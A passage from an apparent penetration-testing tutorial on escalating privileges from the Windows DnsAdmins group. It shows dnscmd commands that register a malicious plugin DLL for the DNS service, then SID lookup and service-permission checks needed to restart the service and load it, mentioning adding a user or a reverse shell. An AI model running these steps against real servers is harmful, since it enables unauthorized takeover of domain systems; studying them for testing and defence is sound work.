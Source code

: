 After confirming group membership in the `DNsAdmins` group, we can re-run the command to load a custom DLL.

```shell-session
C:\> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

{% hint style="danger" %}
## Note

The full path to the custom DLL must be specified or the attack will not work properly.
{% endhint %}

Only the `dnscmd` utility can be used by members of the `DnsAdmins` group, as they do not directly have permission on the registry key.

With the registry setting containing the path of our malicious plugin configured, and the payload created, the DLL will be loaded the next time the DNS service is started. Membership in the `DnsAdmins` group does not provide the ability to restart the DNS service, _but this is something that sysadmins might permit DNS admins to do._

If we are able to restart the DNS service and have done so, we should be able to run our custom DLL and add a user or get a reverse shell. If we do not have access to restart the DNS server, we will have to wait until the server or service restarts.

### Finding User SIDs

We'll need to grab our current users SID.

```shell-session
C:\> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

### Checking Permissions for the DNS Service

We need to check out current users permissions on the DNS service.

Once we have the user's SID, we can use the `sc` command to check permissions on the service. Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/), we can see that our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.

```
C:\> sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```
